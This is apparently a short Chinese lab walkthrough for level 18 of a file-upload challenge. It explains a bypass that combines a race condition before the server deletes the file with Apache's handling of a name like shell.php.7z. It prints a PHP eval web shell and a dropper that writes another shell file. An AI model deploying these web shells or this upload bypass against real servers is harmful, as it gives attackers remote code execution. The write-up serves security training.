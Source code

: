 ## 解题wp(By:独立团孙德胜Alan)
本pass主要考察条件竞争，以及后缀名绕过

## 1.打开第十八关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

 

## 3.分析代码

##### 本Pass解除了利用文件包含漏洞，仔细读代码发现源码中先判断move_uploaded_file函数是否执行成功，然后再判断上传的文件后缀名是否在白名单中，如果不在白名单中则用unlink函数删除文件。

##### 可以通过条件竞争的方式在unlink函数执行之前访问上传文件。

##### 然后又加了限制，白名单中存在.7z，apache不能解析，因此可以利用apache的解析漏洞，命名文件为1.php.7z，这样，apche从右往左解析时，遇到.7z不认识，就把这个文件当作.php来解析

## 4.我们可以通过上传一个能生成新的文件的木马，然后不停访问它

使用Burpsuite抓包上传shell.php.7z
内容：

```
<?php fputs(fopen('Alan.php','w'),'<?php @eval($_POST["Alan"])?>’);?>
```

剩下的和第17关一样
